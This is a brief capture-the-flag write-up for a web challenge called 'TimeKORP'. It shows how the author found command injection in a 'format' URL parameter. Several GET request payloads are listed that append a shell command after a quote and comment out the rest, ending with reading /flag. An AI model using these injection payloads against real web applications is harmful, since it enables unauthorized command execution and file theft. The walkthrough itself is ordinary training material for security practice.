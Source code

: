 # TimeKORP

So we start off with this page:

<figure><img src="../../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

if i put a quote at the end of the url we get a blank response:

<figure><img src="../../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

So i capture the request, send it to the repeater and start looking how i can get an output via command injection:

```
GET /?format=%Y-%25m-%25d'|pwd
GET /?format=%Y-%25m-%25d'pwd
GET /?format=%Y-%25m-%25d'|pwd#
GET /?format=%Y-%25m-%25d'|pwd+
GET /?format=%Y-%25m-%25d'|pwd+%23
```

and the last payload works, i needed to comment out the rest of what the backend server was doing and url encode my request:

<figure><img src="../../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

So we just need to change the command to cat /flag and we get our flag
